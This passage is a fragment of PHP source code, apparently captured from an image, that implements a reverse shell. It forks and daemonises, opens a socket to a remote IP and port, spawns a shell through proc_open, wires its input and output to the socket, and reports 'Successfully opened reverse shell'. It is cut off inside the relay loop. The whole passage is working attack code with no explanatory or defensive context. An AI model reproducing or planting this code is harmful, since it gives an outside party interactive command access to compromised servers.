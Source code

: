 ```BASH
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

```